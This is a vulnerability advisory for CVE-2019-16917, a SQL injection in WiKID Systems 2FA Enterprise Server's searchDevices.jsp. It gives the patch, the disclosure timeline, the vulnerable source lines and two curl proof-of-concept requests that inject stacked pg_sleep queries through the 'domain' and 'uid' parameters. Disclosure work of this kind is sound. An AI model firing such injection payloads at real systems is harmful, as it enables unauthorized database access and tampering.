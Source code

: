 A SQL Injection vulnerability, CVE-2019-16917, was identified on `WiKID Systems 2FA Enterprise Server` through version `4.2.0-b2047`.  The <var>uid</var> and <var>domain</var> parameters, used by **searchDevices.jsp**, are not sanitized before being included in a SQL query thus allowing an authenticated user to create, read, update, or delete information in the database.  

## Patch

* **4.2.0.b2047**: <https://downloads.wikidsystems.com/wikid-server-enterprise-4.2.0.b2047-1.noarch.rpm>

## Timeline

* 14 Sep 2019 - Issue discovered on `WiKID Systems 2FA Enterprise Server 4.2.0-b2032` and disclosed to WiKID Systems.
* 26 Sep 2019 - Issue confirmed by WiKID Systems, Patch Released
* 16 Oct 2019 - Public Disclosure

## Description

The source for **searchDevices.jsp** reveals the `buildSearchWhereClause`.  The <var>uid</var> and <var>domain</var> parameters are retrieved in the `buildSearchWhereClause` function:

~~~
191     private void buildSearchWhereClause(HttpServletRequest request) {
192         where = "";
193         <r:b>String uid=request.getParameter("uid");</r:b>
194         <r:b>String domain=request.getParameter("domain");</r:b>
~~~

### domain parameter

If the <var>domain</var> parameter is set and <var>uid</var> parameter is not set, <var>domain</var> is included in a query thus allowing SQL injection here:

~~~
203         }else if(!domain.equals("0") && uid==null){
204             where="where domainid="+<r:var>domain</r:var>;
~~~

If the <var>uid</var> parameter is set, the <var>domain</var> parameter is included in a query thus allowing SQL injection here:

~~~
205         }else if(uid!=null){
...
214             if(!domain.equals("0")){
215                 where=where+" and domainid="+<r:var>domain</r:var>;
216             }
217         }
218     }
~~~

The backend database is Postgres, which supports Stacked Queries.  A value such as `1; select pg_sleep(10);--` will demonstrate the issue the first query will execute followed by a second query instructing the database to sleep; the database and application will hang for 10+ seconds:

~~~{.sh}
SLEEP=10; HOST=$RHOST; COOKIE=$COOKIE; time curl -v -i -s -k  -X 'POST' -H "Host: $HOST" -H "Cookie: JSESSIONID=$COOKIE;" --data-binary "uid=test&domain=1;select pg_sleep($SLEEP);--&action=Search" https://$HOST/WiKIDAdmin/searchDevices.jsp
~~~

### uid parameter

If the <var>uid</var> parameter is set, the logic drops down to following logic where the <var>uid</var> parameter is included in the query:

~~~
205         }else if(uid!=null){
206             uid=uid.toLowerCase().trim();
207             String ask=uid.substring(uid.length()-1);
208             if(ask!=null ){
209 //                uid=uid.substring(0,uid.length()-1);
210                 where="where RTRIM(LOWER(userid)) like LOWER('%"+<r:var>uid</r:var>+"%')";
211 //            }else{
212 //                where="where RTRIM(LOWER(userid))=LOWER('"+uid+"')";
213             }
~~~

A request, such as the following, will trigger the issue, causing the application to delay for 10+ seconds:

~~~{.sh}
SLEEP=10; HOST=$RHOST; COOKIE=$COOKIE; time curl -v -i -s -k  -X 'POST' -H "Host: $HOST" -H "Cookie: JSESSIONID=$COOKIE;" --data-binary "uid=1;select pg_sleep($SLEEP);--&action=Search" https://$HOST/WiKIDAdmin/searchDevices.jsp
~~~
